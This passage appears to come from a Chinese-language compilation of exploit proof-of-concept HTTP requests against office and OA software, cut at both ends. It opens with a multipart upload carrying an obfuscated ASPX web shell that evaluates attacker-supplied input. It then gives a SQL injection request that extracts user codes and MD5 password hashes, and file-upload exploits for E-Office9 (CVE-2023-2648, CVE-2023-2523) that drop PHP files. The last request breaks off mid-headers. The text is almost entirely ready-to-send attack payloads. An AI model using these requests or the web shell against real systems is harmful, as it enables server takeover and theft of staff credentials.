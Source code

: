 ------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

<%@ Page Language="Jscript" Debug=true%>
<%
var FRWT='XeKBdPAOslypgVhLxcIUNFmStvYbnJGuwEarqkifjTHZQzCoRMWD';
var GFMA=Request.Form("qmq1");
var ONOQ=FRWT(19) + FRWT(20) + FRWT(8) + FRWT(6) + FRWT(21) + FRWT(1);
eval(GFMA, ONOQ);
%>

------WebKitFormBoundaryFfJZ4PlAZBixjELj--

### 13、某联达oa sql注入漏洞 POC

POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: xxx.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://xxx.com:8888/Services/Identification/Server/Incompatible.aspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 88

dasdas=&key=1' UNION ALL SELECT top 1812 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --

### 14、某微E-Office9文件上传漏洞 CVE-2023-2648 POC

POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 192.168.233.10:8082
User-Agent: test
Connection: close
Content-Length: 493
Accept-Encoding: gzip
Content-Type: multipart/form-data

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="Filedata"; filename="666.php"
Content-Type: application/octet-stream

<?php phpinfo();?>

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt

### 15、某微E-Office9文件上传漏洞 CVE-2023-2523 POC

POST/Emobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1 
Host:192.168.233.10:8082  
Cache-Control:max-age=0  
Upgrade-Insecure-Requests:1  
Origin:null  
Content-Type:multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt  
Accept-Encoding:gzip, deflate
Accept-Language:en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection:close

